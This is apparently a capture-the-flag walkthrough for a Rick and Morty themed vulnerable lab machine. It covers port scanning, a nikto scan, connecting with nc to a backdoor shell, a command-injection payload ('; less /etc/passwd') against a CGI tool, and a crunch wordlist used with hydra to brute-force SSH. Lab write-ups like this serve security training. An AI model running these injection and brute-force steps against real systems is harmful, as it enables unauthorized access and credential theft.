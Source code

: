Using nmap on the ip using SYN and version scan.

                └─$ sudo nmap -sV -sS -p- 192.168.42.92
                Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-17 15:28 IST
                Nmap scan report for 192.168.42.92
                Host is up (0.00050s latency).
                Not shown: 65528 closed tcp ports (reset)
                PORT      STATE SERVICE VERSION
                21/tcp    open  ftp     vsftpd 3.0.3
                22/tcp    open  ssh?
                80/tcp    open  http    Apache httpd 2.4.27 ((Fedora))
                9090/tcp  open  http    Cockpit web service 161 or earlier
                13337/tcp open  unknown
                22222/tcp open  ssh     OpenSSH 7.5 (protocol 2.0)
                60000/tcp open  unknown
                3 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
                ==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
                SF-Port22-TCP:V=7.93%I=7%D=5/17%Time=6464A558%P=x86_64-pc-linux-gnu%r(NULL
                SF:,42,"Welcome\x20to\x20Ubuntu\x2014\.04\.5\x20LTS\x20\(GNU/Linux\x204\.4
                SF:\.0-31-generic\x20x86_64\)\n");
                ==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
                SF-Port13337-TCP:V=7.93%I=7%D=5/17%Time=6464A558%P=x86_64-pc-linux-gnu%r(N
                SF:ULL,29,"FLAG:{TheyFoundMyBackDoorMorty}-10Points\n");
                ==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
                SF-Port60000-TCP:V=7.93%I=7%D=5/17%Time=6464A55E%P=x86_64-pc-linux-gnu%r(N
                SF:ULL,2F,"Welcome\x20to\x20Ricks\x20half\x20baked\x20reverse\x20shell\.\.
                SF:\.\n#\x20")%r(ibm-db2,2F,"Welcome\x20to\x20Ricks\x20half\x20baked\x20re
                SF:verse\x20shell\.\.\.\n#\x20");
                MAC Address: 08:00:27:B9:12:62 (Oracle VirtualBox virtual NIC)
                Device type: general purpose
                Running: Linux 3.X|4.X
                OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
                OS details: Linux 3.2 - 4.9
                Network Distance: 1 hop
                Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

                OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
                Nmap done: 1 IP address (1 host up) scanned in 43.42 seconds


Flag from fingerprint:
1.FLAG:{TheyFoundMyBackDoorMorty}


http interface flag 9090 flag:
2.FLAG {THERE IS NO ZEUS, IN YOUR FACE!}

ftp flag Users flag:
3.FLAG{Whoa this is unexpected}

Reverse shell using nc command in the port 60000
command:

    $nc <ip> 60000

reverse shell flag:
4.FLAG{Flip the pickle Morty!} - 10 Points


Busting the directories in the Morty's website using nikto
result:

      $ nikto -host http://192.168.42.8/ 
      - Nikto v2.5.0
      ---------------------------------------------------------------------------
      + Target IP:          192.168.42.8
      + Target Hostname:    192.168.42.8
      + Target Port:        80
      + Start Time:         2023-05-18 08:35:41 (GMT5.5)
      ---------------------------------------------------------------------------
      + Server: Apache/2.4.27 (Fedora)
      + /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
      + /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
      + Apache/2.4.27 appears to be outdated (current is at least Apache/2.4.54). Apache 2.2.34 is the EOL for the 2.x branch.
      + OPTIONS: Allowed HTTP Methods: GET, POST, OPTIONS, HEAD, TRACE .
      + /: HTTP TRACE method is active which suggests the host is vulnerable to XST. See: https://owasp.org/www-community/attacks/Cross_Site_Tracing
      + /passwords/: Directory indexing found.
      + /passwords/: This might be interesting.
      + /icons/: Directory indexing found.
      + /icons/README: Apache default file found. See: https://www.vntweb.co.uk/apache-restricting-access-to-iconsreadme/
      + 8908 requests: 0 error(s) and 9 item(s) reported on remote host
      + End Time:           2023-05-18 08:35:48 (GMT5.5) (7 seconds)
      ---------------------------------------------------------------------------
      + 1 host(s) tested

Opening the /passwords/ dir in the ip has a file FLAG.txt 
5.FLAG{Yeah d- just don't do it.} 

The directory also has a html file called passwords.html where it has a password commented on its html code
password: winter

Using robots.txt in the ip results:

      They're Robots Morty! It's ok to shoot them! They're just Robots!

      /cgi-bin/root_shell.cgi
      /cgi-bin/tracertool.cgi
      /cgi-bin/*
/cgi-bin/tracertool.cgi contains a command excecutable shell where we use the command:
      
      ; less /etc/passwd
to view the contents of passwd file which has the details of the usernames

Output:

      root:x:0:0:root:/root:/bin/bash
      bin:x:1:1:bin:/bin:/sbin/nologin
      daemon:x:2:2:daemon:/sbin:/sbin/nologin
      adm:x:3:4:adm:/var/adm:/sbin/nologin
      lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
      sync:x:5:0:sync:/sbin:/bin/sync
      shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
      halt:x:7:0:halt:/sbin:/sbin/halt
      mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
      operator:x:11:0:operator:/root:/sbin/nologin
      games:x:12:100:games:/usr/games:/sbin/nologin
      ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
      nobody:x:99:99:Nobody:/:/sbin/nologin
      systemd-coredump:x:999:998:systemd Core Dumper:/:/sbin/nologin
      systemd-timesync:x:998:997:systemd Time Synchronization:/:/sbin/nologin
      systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin
      systemd-resolve:x:193:193:systemd Resolver:/:/sbin/nologin
      dbus:x:81:81:System message bus:/:/sbin/nologin
      polkitd:x:997:996:User for polkitd:/:/sbin/nologin
      sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
      rpc:x:32:32:Rpcbind Daemon:/var/lib/rpcbind:/sbin/nologin
      abrt:x:173:173::/etc/abrt:/sbin/nologin
      cockpit-ws:x:996:994:User for cockpit-ws:/:/sbin/nologin
      rpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologin
      chrony:x:995:993::/var/lib/chrony:/sbin/nologin
      tcpdump:x:72:72::/:/sbin/nologin
      RickSanchez:x:1000:1000::/home/RickSanchez:/bin/bash
      Morty:x:1001:1001::/home/Morty:/bin/bash
      Summer:x:1002:1002::/home/Summer:/bin/bash
      apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin
We can try the three usernames and the password winter with ssh
command:
  
      $ssh Summer@192.168.42.8 -p 22222

uname: Summer   pass: winter   satisfied!
Inside the Summer dir we have a FLAG.txt 

6.FLAG{Get off the high road Summer!} 





pass:Meeseek
zip:
7.FLAG: {131333}


safe flag:
8.FLAG{And Awwwaaaaayyyy we Go!} - 20 Points


safe hint:

      Ricks password hints:
       (This is incase I forget.. I just hope I don't forget how to write a script to generate potential passwords. Also, sudo is wheely good.)
      Follow these clues, in order


      1 uppercase character
      1 digit
      One of the words in my old bands name.  ---> Flesh Curtains

crunch the password list
crunch 7 7 ,%Flesh -O >>yourfile.txt
crunch 10 10 ,%Curtains -O>>Yourfile.txt


bruteforce using hydra
$ hydra -l RickSanchez -P yourfile.txt 192.168.42.8 ssh  -s  22222



flag root access:
9.FLAG: {Ionic Defibrillator} - 30 points



